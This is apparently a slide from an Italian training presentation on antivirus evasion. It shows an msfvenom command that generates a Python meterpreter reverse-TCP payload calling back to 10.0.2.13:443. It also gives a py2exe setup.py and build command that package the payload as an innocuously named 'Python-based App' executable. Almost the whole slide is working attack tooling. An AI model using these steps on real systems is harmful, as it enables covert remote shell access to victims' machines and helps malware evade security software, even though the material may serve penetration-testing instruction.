

Tool per AV/Evasion – MSFvenom,Attacco 6
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.13 LPORT=443 -f raw -o mrtp.py
from distutils.core import setup
	import py2exe
	setup(
	name = “Meter”,
	description = “Python-based App”,
	version = “1.0”,
	console=[“mrtp.py”],
	options = {“py2exe”: {“bundle_files”: 	1,”packages”:”ctypes”,”includes”: 	“base64,sys,socket,struct,time,code,platform,getpass,shutil”,}},
	zipfile = None,	)
È  necessario creare un file “setup.py” per la creazione del file eseguibile.
Per creare il payload malevolo:
python.exe .\setup.py py2exe